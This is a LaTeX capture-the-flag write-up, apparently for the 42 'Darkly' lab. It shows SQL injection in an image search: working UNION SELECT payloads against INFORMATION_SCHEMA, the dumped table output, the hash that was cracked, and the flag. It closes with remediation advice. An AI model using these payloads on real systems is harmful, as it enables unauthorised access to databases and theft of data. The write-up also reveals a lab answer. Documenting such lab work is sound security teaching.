\section{Flag 01 - SQL Injection (Advanced)}

\paragraph{f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188}

\begin{center}
    
\includegraphics[width=0.5\textwidth]{04.Flag01/01-08.png}\\[0cm] 
\end{center}

\subsection{Vulnerability}

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

\subsection{Location}

'http://<ip-address>:80/?page=searchimg'

\subsection{Method}

I entered `1 OR 1` in the search box. This returned:

ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png\\


So I start running commands to find just one query, I entered 5 (in case it is lucky) in the box and this returns:

ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png\\

The first thing to do is to find out which tables are present and which coloumns. I ran the query:\\

5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS\\

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: id
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: url
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: title
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: comment
Url : list\_images

We have found the list\_ table and the columns therein. We are interested to see the contents now so we query:\\

5 UNION SELECT title, comment FROM list\_images\\

This will return:\\

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT title, comment FROM list\_images
Title: An image about the NSA !
Url : Nsa

ID: 5 UNION SELECT title, comment FROM list\_images
Title: There is a number..
Url : 42 !

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Google it !
Url : Google

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Yes we can !
Url : Obama

ID: 5 UNION SELECT title, comment FROM list\_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Because why not ?
Url : tr00l\\

This is an MD5 hash whose value is:
`1928e8083cf461a51303633093573c46: albatroz`

The SHA256 for albatroz:

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

\subsection{Tools}

\begin{figure}[!htb]
    \centering
    \subfloat[Search ID Member 5]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-03.png}\label{fig: 01-01 - Search start}} \quad
    \subfloat[ID 5]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-04.png}\label{fig: 01-02 - 5query}} \\
    \subfloat[1 OR 1]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-01.png}\label{fig: 01-03 - 1or1}} \quad
    \subfloat[Flag at Image column]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-02.png}\label{fig: 01-04 - Get The Flag}}
    \subfloat[Secret Column Contents]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-06.png}\label{fig: 01-06 - column content}} \quad
    \subfloat[MD5 Hash]{
\includegraphics[width=.45\columnwidth]{04.Flag01/01-07.png}\label{fig: 01-07 - The Flag}}
    \caption[Flag 01 Method]{Process to Capture the SQL (Advanced) Flag} % The text in the square bracket is the caption for the list of figures while the text in the curly brackets is the figure caption
    \label{fig:flag00 method}
\end{figure}

\begin{itemize}
    \item \href{https://hashes.com/en}{hashes.com}
    \item \href{https://www.w3schools.com/sql/sql\_injection.asp}{W3Schools.com}
    \item \href{https://cheatsheetseries.owasp.org/cheatsheets/Injection\_Prevention\_Cheat\_Sheet.html}{Owasp Cheatsheet Series}
    \item \href{https://owasp.org/www-community/attacks/SQL\_Injection}{Owasp - SQL Injection}
    \item \href{https://portswigger.net/web-security/sql-injection/union-attacks}{Portswigger - Union Attacks}
    \item \href{https://www.sqlinjection.net/table-names/}{SQL Injection .NET}
    \item \href{https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/}{PT Security}
\end{itemize}

\subsection{Remedy}

\begin{itemize}
    \item Input Validation
    \subitem Use Regular Expressions as whitelist
    \subitem If values are fixed use radios and buttons
    \item Use internal checks like \begin{quotation}
        \$(isNumber) or \$(isString)
    \end{quotation} depending on the input
    \item Parametrised Querys like PDO for php or Prepared Statements in general.
    \item Escaping the characters eg. \begin{quote}
        mysqli\_real\_escape\_string(\$string)
    \end{quote}
\end{itemize}
There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.
